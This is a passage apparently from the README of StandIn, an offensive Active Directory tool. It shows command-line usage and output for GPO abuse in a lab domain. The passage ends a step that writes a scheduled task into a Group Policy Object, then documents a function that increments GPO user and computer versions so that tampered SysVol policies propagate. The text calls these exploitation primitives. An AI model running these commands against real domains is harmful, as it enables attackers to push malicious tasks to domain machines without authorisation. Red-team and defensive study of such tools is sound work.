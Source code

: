```
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[?] GPO Version
    User     : 0
    Computer : 3

[+] Writing GPO changes
    |_ Creating ScheduledTasks.xml
    |_ Updating gpt.inf
    |_ Updating AD object
       |_ Incrementing version number
       |_ Creating gPCUserExtensionNames
```

### GPO increase user / computer version

> *While the previous GPO functions offer powerful exploitation primitives it may be useful to have the ability to manually edit `GPO's` on `SysVol`. Once any GPO has been manually modified then the AD object version should be sync'd to correctly propagate the changes. This function does that.*

#### Syntax

Increase the `User` or `Computer` GPO version on the associated AD object.

```
C:\Users\user001\Desktop>StandIn.exe --gpo --filter Shards --increase --tasktype user

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[?] Current GPO Versioning
    User     : 1
    Computer : 3

--> Incrementing user version

C:\Users\user001\Desktop>StandIn.exe --gpo --filter Shards --increase --tasktype computer

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[?] Current GPO Versioning
    User     : 2
    Computer : 3

--> Incrementing computer version
```
